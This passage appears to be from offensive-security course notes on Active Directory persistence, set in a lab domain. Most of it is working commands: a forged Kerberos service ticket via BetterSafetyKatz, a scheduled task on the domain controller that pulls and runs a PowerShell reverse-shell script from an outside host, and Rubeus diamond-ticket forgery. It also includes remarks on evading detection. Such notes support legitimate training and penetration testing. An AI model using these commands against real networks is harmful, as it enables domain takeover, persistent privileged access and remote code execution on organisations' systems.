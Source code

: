 Now the Command -

```
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /target:dcorp-dc.dollarcorp.moneycorp.local /service:SERVICE_NAME(e.g., CIFS, HTTP,HOST, RPCSS etc) /rc4:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"
```

**BONUS! --> \[RPCSS service gives us the rights to interact with DC using WMI]**

Now, examples -->

**Create and schedule a task - noisy but fine for PoC -**

```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient)>DownloadStiring("http://IP/InvokePowerShellTCP.ps1")'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

### Diamond Ticket - (TGT modification attack)

* A Diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account.
* Golden Ticket was a TGT forging attack whereas Diamond Ticket is a TGT modification attack.
* Once again,  the persistence lifetime depends on krbtgt account.
* A Diamond Ticket is more opsec safe as it has :-
  * Valid ticket times because TGT issued by the DC is modified.
  * In Golden Ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.

#### **Then it should be safe, ain't it? ...Detection?** **The only way it is detected is when we are use the Diamond Ticket!**

Now, creating a Diamond Ticket -->

* Well, we would still need krbtgt AES keys. The use the following Rubeus command to create a Diamond Ticket (**note that RC4 or AES keys of the user can be used too**)

```
Rubeus.exe diamond /krbkey:KEY /user:studentX /password:PASSWORD /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

* We could also use **/tgtdeleg** options in place of credentials in case we have access as a domain user -

```
Rubeus.exe diamond /krbkey:KEY /tgtdeleg /enctype:aes  /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe  /show /ptt
```

### Skeleton Key - (Not recommended using in a actual assessment)
